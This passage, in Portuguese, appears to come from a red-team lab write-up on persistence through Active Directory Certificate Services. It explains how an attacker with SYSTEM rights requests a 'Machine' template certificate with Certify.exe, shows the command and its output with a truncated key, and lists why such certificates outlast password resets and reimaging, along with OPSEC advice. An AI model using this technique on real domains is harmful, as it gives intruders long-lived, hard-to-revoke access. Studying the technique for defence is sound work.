 No meu contexto eu pedi sobre uma template vulneravel, porém o ideal é fazer como eu disse acima, emitir essa template em um certificado padrão do ADCS como a **User**. Em seguida veremos como realizar a persistência em maquinas.

<br>

# Persistence by machine certificate

A persistência de maquina com certificados, segue a mesma ideia da maneira anterior, mas ao invés de ser nescessario um usuario de alto privilegio, você precisa ser SYSTEM na maquina, e fazer persistencia por máquina também tem suas vantagens, como:
- O certificado dura 1 ano, e pode ser renovado quando estiver perto de expirar.
- Mesmo que o computador mude de senha o certificado ainda irá funcionar.
- Mesmo que formate o computador, caso ele volte para a rede com o mesmo nome, o certificado ainda será valido (THIS IS UNREAL MICROSOFT LMFAAAO).
    * Caso haja alteração no SID da maquina, ai sim o certificado se torna invalido, se a maquina for formatada normalmente ela tera o mesmo SID, caso ela seja formatada e houve alguma alteração de hardware o SID será alterado.
    * Porém em novas atualizações do Certipy/fy você consegue especificar o SID que quer utilizar no certificado


<br>

Vamos então agora reproduzir em nosso laborátorio, a ideia é a seguinte
- Solicitar a CA(Certification Authority) um certificado sobre a template "Machine" que em seu EKU(Enhanced Key Usage) permite **Client Authentication** por padrão.
- Converter o .pem para pfx com openssl (<span style="color: red;">OPSEC NOTES</span>: Nunca coloque os certificados com uma senha fraca 😑).

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"Machine" /machine

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : NT AUTHORITY\SYSTEM
[*] No subject name specified, using current machine as subject

[*] Template                : Machine
[*] Subject                 : CN=SRV-01.CORP.LOCAL

[*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 22

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA0XOxnEqKbwpWnAOHKGHs...

-----END CERTIFICATE-----


```